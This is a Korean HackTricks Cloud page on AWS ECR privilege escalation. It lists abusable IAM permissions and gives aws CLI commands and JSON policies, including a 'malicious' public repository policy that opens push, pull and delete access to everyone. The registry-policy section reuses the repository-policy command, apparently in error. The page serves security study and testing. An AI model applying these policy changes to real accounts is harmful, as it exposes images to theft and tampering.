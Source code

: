 # AWS - ECR 권한 상승

{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 레포지토리에 PR을 제출하여 해킹 요령을 공유하세요.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

**`ecr:GetAuthorizationToken`** 및 **`ecr:BatchGetImage`** 권한을 가진 공격자는 ECR에 로그인하고 이미지를 다운로드할 수 있습니다.

이미지를 다운로드하는 방법에 대한 자세한 정보는 다음을 참조하세요:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**잠재적 영향:** 트래픽에서 민감한 정보를 가로채어 간접적인 권한 상승.

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

위 권한을 모두 가진 공격자는 ECR에 로그인하고 이미지를 업로드할 수 있습니다. 이를 통해 해당 이미지가 사용되는 다른 환경으로의 권한 상승이 가능합니다.

새 이미지를 업로드하거나 업데이트하는 방법을 알아보려면 다음을 확인하세요:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

이전 섹션과 유사하지만 공개 저장소용입니다.

### `ecr:SetRepositoryPolicy`

이 권한을 가진 공격자는 **저장소 정책을 변경**하여 자신에게 (또는 모두에게) **읽기/쓰기 액세스**를 부여할 수 있습니다.\
예를 들어, 이 예제에서는 모든 사람에게 읽기 액세스가 부여됩니다.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json`의 내용:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ecr:GetDownloadUrlForLayer",
                "ecr:BatchGetImage",
                "ecr:BatchCheckLayerAvailability"
            ],
            "Resource": "*"
        }
    ]
}
```
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

이전 섹션과 유사하지만 공개 저장소(public repositories)에 대한 내용입니다.\
공격자는 ECR Public 저장소의 **저장소 정책(repository policy)을 수정**하여 무단으로 공개 액세스를 허용하거나 권한을 상승시킬 수 있습니다.

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**잠재적 영향**: ECR Public 저장소에 대한 무단 공개 액세스로 인해 사용자가 이미지를 푸시하거나 끌어오거나 삭제할 수 있음.

### `ecr:PutRegistryPolicy`

이 권한을 가진 공격자는 **레지스트리 정책을 변경**하여 자신, 자신의 계정 또는 심지어 모든 사용자에게 **읽기/쓰기 액세스**를 부여할 수 있음.
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWS 해킹 학습 및 실습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 실습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 요금제**](https://github.com/sponsors/carlospolop)를 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **트위터** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우**하세요.
* 해킹 팁을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃헙 저장소에 PR을 제출하세요.

</details>
{% endhint %}

